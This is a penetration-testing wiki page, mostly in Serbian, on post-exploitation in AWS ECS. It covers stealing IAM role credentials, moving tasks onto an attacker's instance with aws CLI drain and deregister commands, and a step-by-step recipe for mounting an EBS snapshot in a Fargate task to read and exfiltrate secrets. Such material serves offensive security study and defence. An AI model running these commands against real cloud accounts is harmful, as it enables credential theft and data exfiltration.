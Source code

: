 # AWS - ECS Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

Za više informacija pogledajte:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Host IAM uloge

U ECS-u se **IAM role može dodeliti task-u** koji se izvršava unutar containera. **Ako** se task izvršava unutar **EC2** instance, **EC2 instance** će imati pridruženu **drugu IAM** rolu.\
Što znači da ako uspete da **kompromitujete** ECS instancu možete potencijalno **dobiti IAM rolu pridruženu ECR-u i EC2 instanci**. Za više informacija o tome kako dobiti te kredencijale pogledajte:

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html
{{#endref}}

> [!CAUTION]
> Imajte na umu da ako EC2 instance primenjuje IMDSv2, [**prema dokumentaciji**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html), odgovor na **PUT request** će imati **hop limit od 1**, što onemogućava pristup EC2 metadata sa containera unutar EC2 instance.

### Privesc to node to steal other containers creds & secrets

But moreover, EC2 uses docker to run ECs tasks, so if you can escape to the node or **access the docker socket**, you can **check** which **other containers** are being run, and even **get inside of them** and **steal their IAM roles** attached.

#### Navođenje containera da se pokreću na trenutnom hostu

Osim toga, **EC2 instance role** obično će imati dovoljno **permissions** da **update-uje container instance state** EC2 instanci koje se koriste kao nodes unutar klastera. Napadač bi mogao izmeniti **state instance na DRAINING**, nakon čega će ECS **ukloniti sve task-ove sa nje**, a oni koji se izvršavaju kao **REPLICA** biće **pokrenuti na drugoj instanci**, potencijalno na **napadačevoj instanci**, tako da on može **ukrasti njihove IAM role** i potencijalne osetljive informacije iz containera.
```bash
aws ecs update-container-instances-state \
--cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```
Ista tehnika se može uraditi i putem **deregistering the EC2 instance from the cluster**. Ovo je potencijalno manje diskretno, ali će **force the tasks to be run in other instances:**
```bash
aws ecs deregister-container-instance \
--cluster <cluster> --container-instance <container-instance-id> --force
```
Poslednja tehnika za forsiranje ponovnog izvršavanja tasks je da se ECS obavesti da je **task ili container zaustavljen**. Postoje 3 potencijalna API-ja za ovo:
```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
--status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```
### Ukradite osetljive informacije iz ECR containers

The EC2 instance will probably also have the permission `ecr:GetAuthorizationToken` allowing it to **preuzimanje image-ova** (you could search for sensitive info in them).

{{#include ../../../../banners/hacktricks-training.md}}



### Montirajte EBS snapshot direktno u ECS task (configuredAtLaunch + volumeConfigurations)

Iskoristite nativnu ECS EBS integraciju (2024+) da montirate sadržaj postojećeg EBS snapshot-a direktno unutar novog ECS task/service i pročitate njegove podatke iz containera.

- Potrebno (minimum):
- ecs:RegisterTaskDefinition
- Jedno od: ecs:RunTask OR ecs:CreateService/ecs:UpdateService
- iam:PassRole na:
- ECS infrastructure role koja se koristi za volumes (policy: `service-role/AmazonECSInfrastructureRolePolicyForVolumes`)
- Task execution/Task roles na koje task definition referencira
- Ako je snapshot enkriptovan sa CMK: KMS dozvole za infra role (AWS managed policy iznad uključuje potrebne KMS grantove za AWS managed keys).

- Uticaj: Čitanje proizvoljnog sadržaja diska iz snapshot-a (npr. fajlovi baze podataka) unutar containera i eksfiltracija preko mreže/logova.

Koraci (primer Fargate):

1) Kreirajte ECS infrastructure role (ako ne postoji) i prikačite managed policy:
```bash
aws iam create-role --role-name ecsInfrastructureRole \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsInfrastructureRole \
--policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSInfrastructureRolePolicyForVolumes
```
2) Registrujte task definiciju sa volumenom označenim kao `configuredAtLaunch` i montirajte ga u kontejner. Primer (ispiše tajnu pa zaspi):
```json
{
"family": "ht-ebs-read",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"executionRoleArn": "arn:aws:iam::<ACCOUNT_ID>:role/ecsTaskExecutionRole",
"containerDefinitions": [
{"name":"reader","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
"entryPoint":["/bin/sh","-c"],
"command":["cat /loot/secret.txt || true; sleep 3600"],
"logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/ebs","awslogs-stream-prefix":"reader"}},
"mountPoints":[{"sourceVolume":"loot","containerPath":"/loot","readOnly":true}]
}
],
"volumes": [ {"name":"loot", "configuredAtLaunch": true} ]
}
```
3) Kreirajte ili ažurirajte servis prosleđivanjem EBS snapshot-a preko `volumeConfigurations.managedEBSVolume` (zahteva iam:PassRole na infra roli). Primer:
```json
{
"cluster": "ht-ecs-ebs",
"serviceName": "ht-ebs-svc",
"taskDefinition": "ht-ebs-read",
"desiredCount": 1,
"launchType": "FARGATE",
"networkConfiguration": {"awsvpcConfiguration":{"assignPublicIp":"ENABLED","subnets":["subnet-xxxxxxxx"],"securityGroups":["sg-xxxxxxxx"]}},
"volumeConfigurations": [
{"name":"loot","managedEBSVolume": {"roleArn":"arn:aws:iam::<ACCOUNT_ID>:role/ecsInfrastructureRole", "snapshotId":"snap-xxxxxxxx", "filesystemType":"ext4"}}
]
}
```
4) Kada se zadatak pokrene, kontejner može da pročita sadržaj snapshot-a na konfigurisanoj tački montiranja (npr., `/loot`). Exfiltrate putem mreže/logova zadatka.

Čišćenje:
```bash
aws ecs update-service --cluster ht-ecs-ebs --service ht-ebs-svc --desired-count 0
aws ecs delete-service --cluster ht-ecs-ebs --service ht-ebs-svc --force
aws ecs deregister-task-definition ht-ebs-read
```

